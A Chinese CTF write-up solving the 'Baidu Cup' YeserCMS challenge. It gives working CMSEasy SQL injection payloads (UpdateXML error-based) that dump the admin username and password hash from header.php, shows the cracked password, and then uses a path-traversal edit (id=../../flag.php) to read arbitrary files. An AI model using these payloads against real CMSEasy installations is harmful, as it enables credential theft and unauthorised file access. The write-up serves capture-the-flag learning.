 # Yeser-CMS漏洞利用

[2018-09-20]()

刚刚做了一道“百度杯”CTF比赛 九月场中的CMS题目，这里拿出来分享一下

> 题目内容：新的CMS系统，帮忙测测是否有漏洞。  
> tips:flag在网站根目录下的flag.php中

首先去百度了一下，是没有这个cms的，那么看一下这个网站看有没有有用的信息  
我看先看一下这个文件：`http://0b572aacb0994d6fb941349a346cae04c9d7fafc8afd42b6.game.ichunqiu.com/robots.txt`  
这个文件的作用是告诉我们哪些网站能爬，哪些不饿能爬，不过它里面有时候会放一些重要的东西

页面显示如下：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line">#</span><br><span class="line"># robots.txt for YeserCMS</span><br><span class="line"># Version 5.0.0</span><br><span class="line">#</span><br><span class="line"></span><br><span class="line">User-agent: *</span><br><span class="line"></span><br><span class="line">Disallow:/admin/</span><br><span class="line">Disallow:/cache/</span><br><span class="line">Disallow:/common/</span><br><span class="line">Disallow:/config/</span><br><span class="line">Disallow:/fckeditor/</span><br><span class="line">Disallow:/htaccess/</span><br><span class="line">Disallow:/images/</span><br><span class="line">Disallow:/install/</span><br><span class="line">Disallow:/js/</span><br><span class="line">Disallow:/lib/</span><br><span class="line">Disallow:/template/</span><br><span class="line">Disallow:/upload/</span><br><span class="line">Disallow:/celive/</span><br><span class="line">Disallow:flag.php</span><br></pre></td></tr></tbody></table>

  
可以好几个比较重要的目录和文件

先放到这，然后我们继续寻找有用的信息  
在文档下载页面，随便点一个文档进去，拉到最下面的评论区可以在我要评论里面看到网站的框架是CMSEASY  
![](1.png)

```
百度了一下CMSeasy，发现这确实是一个CMS，而且是有漏洞的
https://www.seebug.org/appdir/CmsEasy
使用无限制报错注入
https://www.seebug.org/vuldb/ssvid-94084
```

这个网站存在报错注入，大概思路就是：  
通过报错注入获得管理员用户名和密码  
然后通过上边的`robots.txt`我们可以看到后台目录是：`/admin/`  
我们直接登陆后台，漏洞在后台页面上

接下来的问题就是如何获得用户名和密码，通过上边这篇文档提供的方法，直接把payload拿来用了：  
存在注入漏洞的页面是：`url/celive/live/header.php`  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">那么我们访问这个页面，同时postdata:xajax=Postdata&amp;xajaxargs[0]=&lt;xjxquery&gt;&lt;q&gt;detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,substring((SELECT/**/GROUP_CONCAT(username,password) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- &lt;/q&gt;&lt;/xjxquery&gt;</span><br></pre></td></tr></tbody></table>

  
这样确实得到了回显，有用户名，但是密码好像是不全的  
![](2.png)

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">接下来直接只查看完整的密码的md5</span><br><span class="line">xajax=Postdata&amp;xajaxargs[0]=&lt;xjxquery&gt;&lt;q&gt;detail=xxxxxx%2527%252c(UpdateXML(1%252cCONCAT(0x5b%252csubstring((SELECT%252f**%252fGROUP_CONCAT(username%252cpassword)%2bfrom%2byesercms_user)%252c7%252c39)%252c0x5d)%252c1))%252cNULL%252cNULL%252cNULL%252cNULL%252cNULL%252cNULL)--%2b&lt;/q&gt;&lt;/xjxquery&gt;</span><br><span class="line"></span><br><span class="line">页面返回如下</span><br><span class="line">XPATH syntax error: '[f512d4240cbbdeafada404677ccbe61'&lt;br /&gt;&lt;br /&gt;INSERT INTO `yesercms_detail` (`chatid`,`detail`,`who_witter`) VALUES('','xxxxxx',(UpdateXML(1,CONCAT(0x5b,substring((SELECT/**/GROUP_CONCAT(username,password) from yesercms_user),7,39),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)--  (2018-08-13 16:22:21)','2')</span><br></pre></td></tr></tbody></table>

![](3.png)  
然后就知道了

```
用户名admin，密码ff512d4240cbbdeafada404677ccbe61，md5解密为Yeser231。
```

这里推荐一个md5在线解码网站，可以直接解出来这个值：`http://www.dmd5.com/md5-decrypter.jsp`  
然后我们就可以进入后台了，在后台直接登陆就行

![](4.png)

登陆后就进入了后台  
还是查看的别人的文章，CMSeasy在后台有一个任意文件查看的漏洞  
我们点击`模板`，然后选择`当前模板编辑`，然后抓个包，点击编辑  
![](5.png)  
![](6.png)  
![](7.png)  
在包的最下边会看到：`&id=#footer_html`这个东西  
![](8.png)

把它修改成`&id=../../flag.php`  
这就是任意文件查看漏洞  
之后发送包，我们要的flag就出来了  
![](9.png)
